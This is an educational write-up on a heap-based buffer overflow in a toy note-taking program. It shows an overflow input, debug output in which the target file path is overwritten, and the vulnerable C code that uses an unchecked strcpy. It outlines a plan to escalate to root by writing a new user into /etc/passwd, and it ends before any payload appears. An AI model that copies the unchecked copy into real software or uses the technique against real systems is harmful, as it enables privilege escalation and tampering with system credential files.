# Heap-Based Overflow - Abusing the file system

## Introduction

We can try this program with some simple input like :

```console
$ ./note_taker "Some boring text"
[DEBUG] buffer @ 0x804d1a0: 'Some boring text'
[DEBUG] datafile @ 0x804d210: '/var/notes'
Note has been saved. 
$ sudo cat /var/notes

Some boring text
$
```

However if we try with a longer input, let's say of size 120, we get the following output :

```console
$ ./note_taker $(perl -e 'print "A"x120')
[DEBUG] buffer @ 0x804d1a0: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[DEBUG] datafile @ 0x804d210: 'AAAAAAAA'
Note has been saved. 
double free or corruption (out)
Aborted
$ ls
AAAAAAAA  note_taker  note_taker.c  README.md
$ sudo cat AAAAAAAA 

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$
```

We can see that the datafile variable has been overwritten and that the program has effectively created the note in the current folder under the file `AAAAAAAA`.

Let's now see how we can exploit this.

## Exploit

We have seen that we created a new file but how useful is that? There are a few files that are useful to gain more privileges. For examples let's say we grant privileges to users via the `/etc/sudoers` file or even that we add a new user with root privileges to the `/etc/passwd` file.
In this case we will do the later one.

### Vulnerable code
We can see that the vulnerability happens on the line **strcpy(buffer, argv[1]);**. Without checking the length of the argument, we can overflow the first buffer and write on the second buffer *datafile*.
```C
int main(int argc, char* argv[]){
  int userid, fd; // File descriptor
  char * buffer, *datafile;
  
  buffer = (char *) malloc(100);
  if (buffer == NULL)
    return -1;

  datafile = (char *) malloc(20);
  if (datafile == NULL)
    return -1;
  strcpy(datafile, "/var/notes");
```